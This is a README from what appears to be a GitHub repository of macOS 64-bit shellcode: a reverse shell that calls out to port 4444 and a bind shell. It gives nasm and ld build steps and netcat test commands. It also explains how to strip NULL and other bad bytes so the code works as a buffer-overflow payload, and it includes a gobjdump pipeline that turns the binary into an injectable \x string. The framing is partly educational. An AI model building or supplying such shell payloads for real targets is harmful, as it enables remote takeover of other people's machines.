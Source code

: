 shell_code_
=============
Various shell code programs for osx 64 bit system.

#### reverse_shell, Usage:
  Program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.
  It is written for mac osx 64 bit

  Start a listening server with the command: `nc -l 4444` in another folder for example your home directory
```
  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  ./reverse_shell
```  

#### bindshell, Usage:
  bindshell start a listening server that you can connect to with the command: `nc -nv 127.0.0.1 4444` in another folder for example your home directory
  (Had some problem with the code, but @norsec0de and @TheColonial helped me to fix it, big thx to them for the help)
```
  nasm -g -f macho64 bindshell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o bindshell bindshell.o
  ./bindshell
```  
Go to the terminal and run `nc -nv 127.0.0.1 4444` then type ls, you should now see a directory listing of the directory you started
bindshell in.


To use the code as a payload, one need to remove the NULL bytes, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
There are other delimiters like linefeed (0x0A), carriage return (0x0D), 0xFF, and others.
See the code for two example on how to change the mov instruction

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  Ànother way to find bad values is:
```
 gobjdump -D bindshell -M intel |grep 00
``` 
  A more simple command to use is the osx otool, `otool -t reverse_shell_no_bad_values.o` we test our reverse_shell code in a simple c-program.  